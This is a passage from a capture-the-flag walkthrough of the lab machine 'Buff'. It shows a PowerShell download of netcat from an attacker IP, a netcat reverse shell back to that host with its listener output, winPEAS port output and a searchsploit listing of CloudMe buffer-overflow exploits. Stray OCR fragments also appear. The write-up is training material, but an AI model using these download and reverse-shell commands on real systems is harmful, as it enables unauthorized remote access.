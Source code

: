 To get an interactive shell, we can transfer `nc.exe` file to the system and then start a reverse shell.

```bash
C:\xampp\htdocs\gym\upload> powershell -command "invoke-webrequest -uri http://10.10.14.5:8000/nc64.exe -outfile nc.exe"
�PNG


C:\xampp\htdocs\gym\upload> powershell "C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.5 8081"
```

Start a listener to receive the connection.

```bash
kali@kali:~/Desktop/tools/win$ nc -nlvp 8081
listening on [any] 8081 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.198] 50245
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

02/08/2020  06:44    <DIR>          .
02/08/2020  06:44    <DIR>          ..
02/08/2020  06:43                53 kamehameha.php
02/08/2020  06:44            45,272 nc.exe
               2 File(s)         45,325 bytes
               2 Dir(s)   9,423,396,864 bytes free
```

## Root Shell

Running `winPEAS` shows that there are two services that are listening on ports `3306` and `8888`.

```bash
  [+] Current Listening Ports(T1049&T1049)
   [?] Check for services restricted from the outside
    Proto     Local Address          Foreing Address        State
    TCP       127.0.0.1:3306                                Listening
    TCP       127.0.0.1:8888                                Listening
```

Further analysis of the port showed that the service listening on port `8888` is `cloudme sync`. This software has a buffer overflow vulnerability.

```bash
mycxclip
kali@kali:~/Desktop/tools/autorecon/results/buff.htb/scans$ searchsploit cloudme
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                             | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                    | windows/local/48499.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```